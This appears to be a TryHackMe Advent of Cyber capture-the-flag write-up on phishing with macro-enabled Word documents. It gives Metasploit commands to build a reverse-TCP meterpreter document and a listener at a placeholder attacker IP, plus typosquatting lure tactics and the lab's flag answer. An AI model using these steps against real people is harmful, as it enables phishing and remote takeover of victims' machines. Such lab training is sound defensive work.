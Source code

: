 # TryHackMe Advent of Cyber - Day 10: He had a brain full of macros, and had shells in his soul

Mayor Malware attempted to phish one of the SOC-mas organizers by sending a malicious macro-embedded document. The goal was to gain remote access to the organizer’s system upon opening the document. Marta May Ware’s system was compromised despite tight security, but McSkidy’s quick incident response mitigated significant damage. To prevent future incidents, a phishing exercise was conducted to assess Marta’s cybersecurity awareness.

### Objectives:
1. Understand how phishing attacks work.
2. Learn how macros in documents can be abused.
3. Carry out a phishing attack using a malicious macro.

---

## Phishing Attacks
Phishing exploits human vulnerabilities, making it one of the easiest and most effective social engineering techniques. Attackers use deceptive emails or messages to convince targets to take actions, such as opening malicious files or clicking harmful links, often by creating a false sense of urgency. These actions can lead to malware installation or information theft.

### Key Techniques:
- **Baiting**: Sending malicious files disguised as legitimate documents.
- **Urgency**: Encouraging immediate action to bypass critical thinking.
- **Typosquatting**: Using domain names resembling legitimate ones to trick targets.

---

## Macros and Their Role in Phishing
Macros automate repetitive tasks in MS Office applications but can be abused to execute malicious code. In phishing scenarios, attackers embed macros within documents to deliver payloads upon opening the file.

### How Macros Are Exploited:
1. **AutoOpen()**: Executes the macro automatically when the document is opened.
2. **Base64Decode()**: Decodes the payload hidden in the document properties.
3. **ExecuteForWindows()**: Runs the decoded payload, establishing a connection to the attacker’s system.

---

## Attack Plan
1. **Create a malicious document**:
   - Use the Metasploit Framework to embed a macro.
   - Payload: `windows/meterpreter/reverse_tcp`.
   - Store the document as `msf.docm`.
2. **Set up the attacker’s system**:
   - Start a listener using Metasploit’s `multi/handler`.
   - Match IP (`LHOST`) and port (`LPORT`) settings with the document configuration.
3. **Phish the target**:
   - Use typosquatting to send a convincing email from `info@socnas.thm`.
   - Rename the malicious document (e.g., `invoice.docm`).
4. **Exploit**:
   - Await the target’s interaction with the document.
   - Gain reverse shell access to the system.

---

## Tools and Commands

### Creating the Malicious Document:
```bash
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST <attacker_ip>
set LPORT 8888
show options
exploit
```
Output: Macro-enabled document `msf.docm`.

### Setting Up the Listener:
```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT 8888
show options
exploit
```

---

## Exploitation
When the target opens the document:
1. A reverse TCP connection is established between the target’s system and the attacker’s system.
2. The attacker gains control over the target’s machine.

---

## Key Takeaways
- Phishing remains a potent threat due to human vulnerability.
- Macros, while useful, pose significant risks if abused.
- Incident response and awareness training are critical to mitigating such attacks.


## Questions

1. What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?
    >THM{PHISHING_CHRISTMAS}

